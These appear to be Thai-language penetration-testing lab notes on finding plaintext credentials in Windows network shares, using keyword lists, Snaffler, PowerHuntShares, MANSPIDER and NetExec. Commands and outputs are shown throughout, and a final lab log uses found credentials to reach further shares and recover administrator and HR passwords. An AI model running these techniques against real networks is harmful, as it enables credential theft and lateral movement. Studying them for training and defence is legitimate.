

# การล่าข้อมูลรับรองใน Network Shares

## ภาพรวม

สภาพแวดล้อมองค์กรเกือบทั้งหมดมี Network Shares ที่พนักงานใช้เก็บและแชร์ไฟล์ระหว่างทีม แม้ว่าโฟลเดอร์ที่แชร์เหล่านี้จะมีความจำเป็น แต่ก็อาจกลายเป็นแหล่งทองคำสำหรับผู้โจมตีโดยไม่ตั้งใจ โดยเฉพาะเมื่อมีข้อมูลสำคัญเช่น:

- **Plaintext credentials** (ข้อมูลรับรองแบบไม่เข้ารหัส)
- **Configuration files** (ไฟล์การตั้งค่า)

## รูปแบบข้อมูลรับรองทั่วไป

### คำสำคัญที่ควรค้นหา

ก่อนใช้เครื่องมือพิเศษ ควรเข้าใจรูปแบบและไฟล์ที่มักเปิดเผยข้อมูลสำคัญ:

#### 🔍 **Keywords ที่ควรมองหา:**
- `passw` (password)
- `user` (username)
- `token`
- `key`
- `secret`
- `cred` (credential)
- `config`
- `initial`

#### 📁 **File Extensions ที่น่าสนใจ:**
- `.ini` - Configuration files
- `.cfg` - Config files
- `.env` - Environment variables
- `.xlsx` - Excel spreadsheets
- `.ps1` - PowerShell scripts
- `.bat` - Batch files

#### 📝 **File Names ที่น่าสงสัย:**
- Files ที่มีคำว่า: `config`, `user`, `passw`, `cred`, `initial`

### เทคนิคการค้นหาที่มีประสิทธิภาพ

#### ✅ **การค้นหาแบบเจาะจง Domain:**
- หากกำลังค้นหาใน domain `INLANEFREIGHT.LOCAL`
- ค้นหาไฟล์ที่มีสตริง `INLANEFREIGHT\`

#### 🌍 **Localization:**
- ปรับคำค้นหาตามภาษาของบริษัทเป้าหมาย
- ตัวอย่าง: บริษัทเยอรมันอาจใช้ "Benutzer" แทน "User"

#### 🎯 **Strategic Scanning:**
- ให้ความสำคัญกับ shares ของ IT employees มากกว่า shares สำหรับรูปภาพบริษัท
- การสแกน 10 shares ที่มีหลายพันไฟล์จะใช้เวลานาน
- เริ่มจากการค้นหาพื้นฐานก่อนใช้เครื่องมือขั้นสูง

#### 💡 **การเริ่มต้นด้วย Command-Line:**
```powershell
Get-ChildItem -Recurse -Include *.ext \\Server\Share | Select-String -Pattern "passw"
```

---

## เครื่องมือสำหรับ Windows

### 1. Snaffler

**คำอธิบาย:**
- โปรแกรม C# ที่รันบนเครื่องที่ join domain แล้ว
- ค้นหา network shares ที่เข้าถึงได้อัตโนมัติ
- ค้นหาไฟล์ที่น่าสนใจ

#### การใช้งานพื้นฐาน:

```cmd
c:\Users\Public> Snaffler.exe -s
```

#### ผลลัพธ์ที่ได้:

```
 .::::::.:::.    :::.  :::.    .-:::::'.-:::::':::    .,:::::: :::::::..
;;;`    ``;;;;,  `;;;  ;;`;;   ;;;'''' ;;;'''' ;;;    ;;;;'''' ;;;;``;;;;
'[==/[[[[, [[[[[. '[[ ,[[ '[[, [[[,,== [[[,,== [[[     [[cccc   [[[,/[[['
  '''    $ $$$ 'Y$c$$c$$$cc$$$c`$$$'`` `$$$'`` $$'     $$""   $$$$$$c
 88b    dP 888    Y88 888   888,888     888   o88oo,.__888oo,__ 888b '88bo,
  'YMmMY'  MMM     YM YMM   ''` 'MM,    'MM,  ''''YUMMM''''YUMMMMMMM   'W'
                         by l0ss and Sh3r4 - github.com/SnaffCon/Snaffler
```

#### ข้อมูลที่ค้นพบ:

**🟢 Accessible Shares (สีเขียว):**
```
[Share] {Green}<\\DC01.inlanefreight.local\ADMIN$>(R) Remote Admin
[Share] {Green}<\\DC01.inlanefreight.local\C$>(R) Default share
[Share] {Green}<\\DC01.inlanefreight.local\Company>(R)
[Share] {Green}<\\DC01.inlanefreight.local\Finance>(R)
[Share] {Green}<\\DC01.inlanefreight.local\HR>(R)
[Share] {Green}<\\DC01.inlanefreight.local\IT>(R)
[Share] {Green}<\\DC01.inlanefreight.local\Marketing>(R)
[Share] {Green}<\\DC01.inlanefreight.local\Sales>(R)
```

**🔴 Sensitive Files Found (สีแดง):**
```
[File] {Red}<KeepPassOrKeyInCode|R|passw?o?r?d?>\s*[^\s<]+\s*<|2.3kB>
(\\DC01.inlanefreight.local\ADMIN$\Panther\unattend.xml)
<AdministratorPassword>*SENSITIVE*DATA*DELETED*</AdministratorPassword>
```

#### Parameters ที่มีประโยชน์:

| Parameter | คำอธิบาย |
|---|---|
| `-s` | Start scanning |
| `-u` | ดึงรายชื่อ Users จาก Active Directory และค้นหาการอ้างอิงในไฟล์ |
| `-i` | ระบุ shares ที่ต้องการ include ในการค้นหา |
| `-n` | ระบุ shares ที่ต้องการ include ในการค้นหา |

#### ⚠️ **ข้อควรระวัง:**
- เครื่องมือทั้งหมดในส่วนนี้จะให้ผลลัพธ์จำนวนมาก
- ต้องมีการตรวจสอบด้วยตนเองอย่างละเอียด
- มักพบ "false positives" (ผลบวกลวง) จำนวนมาก

---

### 2. PowerHuntShares

**คำอธิบาย:**
- PowerShell script ที่ไม่จำเป็นต้องรันบน domain-joined machine
- สร้าง HTML report เมื่อเสร็จสิ้น
- มี UI ที่ใช้งานง่ายสำหรับตรวจสอบผลลัพธ์



#### การใช้งานพื้นฐาน:

```powershell
PS C:\Users\Public\PowerHuntShares> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
```

#### ผลลัพธ์ที่ได้:

```
===============================================================
INVOKE-HUNTSMBSHARES
===============================================================
 This function automates the following tasks:

 o Determine current computer's domain
 o Enumerate domain computers
 o Check if computers respond to ping requests
 o Filter for computers that have TCP 445 open and accessible
 o Enumerate SMB shares
 o Enumerate SMB share permissions
 o Identify shares with potentially excessive privileges
 o Identify shares that provide read or write access
 o Identify shares that are high risk
 o Identify common share owners, names, & directory listings
 o Generate last written & last accessed timelines
 o Generate html summary report and detailed csv files

 Note: This can take hours to run in large environments.
```

#### ขั้นตอนการทำงาน:

1. **Determine domain** - หา domain ปัจจุบัน
2. **Enumerate computers** - นับจำนวนคอมพิวเตอร์
3. **Ping check** - ตรวจสอบการตอบสนอง
4. **Port 445 check** - ตรวจสอบ TCP port 445
5. **Enumerate shares** - หา SMB shares
6. **Check permissions** - ตรวจสอบสิทธิ์
7. **Identify risks** - ระบุความเสี่ยง
8. **Generate report** - สร้างรายงาน HTML และ CSV

#### ตัวอย่าง Summary Report:

**📊 Findings:**
- 🔴 Critical: 5
- 🟠 High: 0
- 🟡 Medium: 0
- 🟢 Low: 2

**📁 Data Exposure:**
- Interesting files: 21
- Sensitive files: 2
- Secrets files: 2

---

## เครื่องมือสำหรับ Linux

### 1. MANSPIDER

**คำอธิบาย:**
- ใช้สแกน SMB shares จาก Linux
- ไม่ต้องการ domain-joined computer
- ค้นหาไฟล์ระยะไกลได้

#### การใช้งานด้วย Docker:

```bash
docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider \
  10.129.234.121 \
  -c 'passw' \
  -u 'mendres' \
  -p 'Inlanefreight2025!'
```

#### คำอธิบาย Parameters:

| Parameter | คำอธิบาย |
|---|---|
| `10.129.234.121` | IP Address เป้าหมาย |
| `-c 'passw'` | ค้นหาเนื้อหาที่มีคำว่า "passw" |
| `-u 'mendres'` | Username สำหรับ authentication |
| `-p 'Inlanefreight2025!'` | Password |

#### ผลลัพธ์:

```
[+] MANSPIDER command executed: /usr/local/bin/manspider 10.129.234.121 -c passw -u mendres -p Inlanefreight2025!
[+] Skipping files larger than 10.00MB
[+] Using 5 threads
[+] Searching by file content: "passw"
[+] Matching files will be downloaded to /root/.manspider/loot
[+] 10.129.234.121: Successful login as "mendres"
```

#### ⚙️ **Default Settings:**
- ข้าม files ที่ใหญ่กว่า 10MB
- ใช้ 5 threads
- ดาวน์โหลดไฟล์ที่ตรงกันไปยัง `/root/.manspider/loot`

---

### 2. NetExec (nxc)

**คำอธิบาย:**
- เครื่องมืออเนกประสงค์ที่สามารถค้นหา network shares ได้
- ใช้ option `--spider` สำหรับค้นหา

#### การใช้งานพื้นฐาน:

```bash
nxc smb 10.129.234.121 \
  -u mendres \
  -p 'Inlanefreight2025!' \
  --spider IT \
  --content \
  --pattern "passw"
```

#### คำอธิบาย Parameters:

| Parameter | คำอธิบาย |
|---|---|
| `smb` | โปรโตคอลที่ใช้ (SMB) |
| `10.129.234.121` | IP Address เป้าหมาย |
| `-u mendres` | Username |
| `-p 'Inlanefreight2025!'` | Password |
| `--spider IT` | สแกน share ชื่อ "IT" |
| `--content` | ค้นหาในเนื้อหาไฟล์ |
| `--pattern "passw"` | รูปแบบที่ต้องการค้นหา |

#### ผลลัพธ์:

```
SMB  10.129.234.121  445  DC01  [*] Windows 10 / Server 2019 Build 17763 x64 
                                (name:DC01) 
                                (domain:inlanefreight.local) 
                                (signing:True) 
                                (SMBv1:False)
SMB  10.129.234.121  445  DC01  [+] inlanefreight.local\mendres:Inlanefreight2025! 
SMB  10.129.234.121  445  DC01  [*] Started spidering
SMB  10.129.234.121  445  DC01  [*] Spidering .
```

---

## เปรียบเทียบเครื่องมือ

| เครื่องมือ | Platform | ข้อดี | ข้อจำกัด |
|---|---|---|---|
| **Snaffler** | Windows | - Auto-discovery<br>- ไม่ต้องระบุ shares<br>- Filter ละเอียด | - ต้อง domain-joined<br>- False positives มาก |
| **PowerHuntShares** | Windows | - HTML report สวยงาม<br>- Timeline analysis<br>- Permission check | - ใช้เวลานานใน environment ใหญ่ |
| **MANSPIDER** | Linux | - รันจาก Linux<br>- ดาวน์โหลดไฟล์อัตโนมัติ<br>- Docker support | - ต้องระบุ target<br>- จำกัดขนาดไฟล์ |
| **NetExec** | Linux | - อเนกประสงค์<br>- รองรับหลายโปรโตคอล<br>- Flexible | - ต้องตรวจสอบ documentation |

---

https://github.com/blacklanternsecurity/MANSPIDER    ช้า   

https://github.com/SnaffCon/Snaffler         สุ่มดวง

https://github.com/NetSPI/PowerHuntShares     เน้นโชว


```
──(kali㉿kali)-[~/MANSPIDER-master]
└─$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.173 -c 'passw' -u 'mendres' -p 'Inlanefreight2025!'
[+] 10.129.234.173\IT\Tools\split_tunnel.txt: matched "passw" 1 times
[+] # Auth backup password: INLANEFREIGHT\jbader:ILovePower333###

──(kali㉿kali)-[~/MANSPIDER-master]
└─$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.173 -c 'passw' -u 'jbader' -p 'ILovePower333###' --sharenames 'HR'
[+] 10.129.234.173\HR\Confidential\Onboarding_Docs_132.txt: matched "passw" 1 times
[+] **Password:** `Str0ng_Adm1nistrat0r_P@ssword_2025!`  
[+] 10.129.234.173\HR\Public\Onboarding_Docs_485.docx: matched "passw" 1 times
[+] password=HRrocks2025!
[+] Finished spidering 10.129.234.173

C:\Users\Public>Snaffler.exe -s -i HR ไม่เจอไรเลย ???
```
```
netexec smb 10.129.234.173 -u 'mendres' -p 'Inlanefreight2025!' -M spider_plus -o DOWNLOAD_FLAG=True

grep -ri "passwd"

```
